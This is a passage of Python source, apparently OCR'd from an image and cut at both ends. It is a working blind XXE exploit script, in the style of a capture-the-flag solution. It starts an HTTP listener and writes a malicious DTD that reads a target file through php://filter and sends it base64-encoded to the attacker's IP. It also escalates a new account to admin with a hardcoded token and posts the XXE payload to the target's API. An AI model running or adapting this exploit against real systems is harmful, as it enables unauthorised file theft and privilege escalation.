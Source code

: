 ```py

        return http.server.SimpleHTTPRequestHandler.do_GET(self)

    # Suppress logging of HTTP requests
    def log_message(self, format, *args):
        pass


def start_server():
    server_address = ("", 8000)
    httpd = http.server.HTTPServer(server_address, RequestHandler)
    print("[+] Server started on port 8000")
    httpd.serve_forever()


def init_dtd(ip, filename):
    with open("exfiltrate.dtd", 'w') as f:
        dtd = f"""<!ENTITY % file SYSTEM 'php://filter/convert.base64-encode/resource={filename}'>
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://{ip}:8000/?file=%file;'>">
%eval;
%exfiltrate;
"""
        f.write(dtd)


def init_session(url, username, password):
    global session

    session_file = 'session.pickle'
    if os.path.exists(session_file):
        with open(session_file, 'rb') as f:
            session = pickle.load(f)
            return True
    else:
        print("[!] session not found, Creating new session")
        print(f"[+] Creating user with: {username}:{password}")

        account_info = {"username": username, "password": password}
        register = session.post(f"{url}/register", data=account_info)
        login = session.post(f"{url}/login", data=account_info)

        admin_token = {"token": "ddac62a28254561001277727cb397baf"}
        set_admin = session.post(f"{url}/set/role/admin", data=admin_token, allow_redirects=False)

        if set_admin.headers["Location"] == "/admin":
            with open(session_file, 'wb') as f:
                pickle.dump(session, f)
            return True
        else:
            return False


def send_payload(url, ip):
    payload = '<?xml version="1.0" encoding="UTF-8"?>' \
              f'<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://{ip}:8000/exfiltrate.dtd"> %xxe;]>' \
              '<root><method>POST</method><uri>/auth/register</uri><user><username>test</username><password>test</password></user></root>'
    xxe_data = {"manage_api": payload}
    session.post(f"{url}/api", data=xxe_data)


if __name__ == "__main__":
    try:
```